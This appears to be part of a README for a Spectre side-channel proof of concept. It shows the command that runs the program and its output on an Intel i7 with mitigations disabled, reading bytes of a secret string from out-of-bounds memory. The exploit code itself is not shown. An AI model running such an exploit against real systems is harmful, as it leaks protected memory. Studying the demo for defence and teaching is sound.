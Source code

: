 ## Example output

The following was output on an Intel(R) Core(TM) i7-8650U CPU, with a cache hit threshold of 20:

`./spectre.out 20:`

```
Version: commit 04c47db298920eb4d1b7c1bafcd0017a72d415bc
Using a cache hit threshold of 20.
Build: RDTSCP_SUPPORTED MFENCE_SUPPORTED CLFLUSH_SUPPORTED INTEL_MITIGATION_DISABLED LINUX_KERNEL_MITIGATION_DISABLED
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffdfeeb8... Success: 0x54=’T’ score=187 (second best: 0x00=’?’ score=92)
Reading at malicious_x = 0xffffffffffdfeeb9... Unclear: 0x68=’h’ score=967 (second best: 0x00=’?’ score=486)
Reading at malicious_x = 0xffffffffffdfeeba... Unclear: 0x65=’e’ score=985 (second best: 0x00=’?’ score=566)
Reading at malicious_x = 0xffffffffffdfeebb... Unclear: 0x20=’ ’ score=965 (second best: 0x00=’?’ score=659)
Reading at malicious_x = 0xffffffffffdfeebc... Unclear: 0x4D=’M’ score=978 (second best: 0x00=’?’ score=700)
Reading at malicious_x = 0xffffffffffdfeebd... Unclear: 0x61=’a’ score=967 (second best: 0x00=’?’ score=654)
Reading at malicious_x = 0xffffffffffdfeebe... Success: 0x67=’g’ score=705 (second best: 0x00=’?’ score=345)
Reading at malicious_x = 0xffffffffffdfeebf... Unclear: 0x69=’i’ score=974 (second best: 0x6A=’j’ score=768)
Reading at malicious_x = 0xffffffffffdfeec0... Unclear: 0x63=’c’ score=615 (second best: 0x00=’?’ score=310)
Reading at malicious_x = 0xffffffffffdfeec1... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfeec2... Success: 0x57=’W’ score=13 (second best: 0x00=’?’ score=3)
Reading at malicious_x = 0xffffffffffdfeec3... Success: 0x6F=’o’ score=17 (second best: 0x00=’?’ score=1)
Reading at malicious_x = 0xffffffffffdfeec4... Success: 0x72=’r’ score=11 (second best: 0x00=’?’ score=4)
Reading at malicious_x = 0xffffffffffdfeec5... Unclear: 0x64=’d’ score=7 (second best: 0x00=’?’ score=6)
Reading at malicious_x = 0xffffffffffdfeec6... Success: 0x73=’s’ score=31 (second best: 0x00=’?’ score=13)
Reading at malicious_x = 0xffffffffffdfeec7... Unclear: 0x20=’ ’ score=7 (second best: 0x00=’?’ score=6)
Reading at malicious_x = 0xffffffffffdfeec8... Success: 0x61=’a’ score=43 (second best: 0x00=’?’ score=20)
Reading at malicious_x = 0xffffffffffdfeec9... Success: 0x72=’r’ score=189 (second best: 0x00=’?’ score=91)
Reading at malicious_x = 0xffffffffffdfeeca... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfeecb... Unclear: 0x20=’ ’ score=7 (second best: 0x00=’?’ score=6)
Reading at malicious_x = 0xffffffffffdfeecc... Unclear: 0x53=’S’ score=151 (second best: 0x00=’?’ score=78)
Reading at malicious_x = 0xffffffffffdfeecd... Success: 0x71=’q’ score=57 (second best: 0x00=’?’ score=26)
Reading at malicious_x = 0xffffffffffdfeece... Success: 0x00=’?’ score=5
Reading at malicious_x = 0xffffffffffdfeecf... Success: 0x65=’e’ score=33 (second best: 0x00=’?’ score=14)
Reading at malicious_x = 0xffffffffffdfeed0... Success: 0x61=’a’ score=115 (second best: 0x62=’b’ score=55)
Reading at malicious_x = 0xffffffffffdfeed1... Unclear: 0x6D=’m’ score=21 (second best: 0x00=’?’ score=15)
Reading at malicious_x = 0xffffffffffdfeed2... Unclear: 0x69=’i’ score=961 (second best: 0x6A=’j’ score=593)
```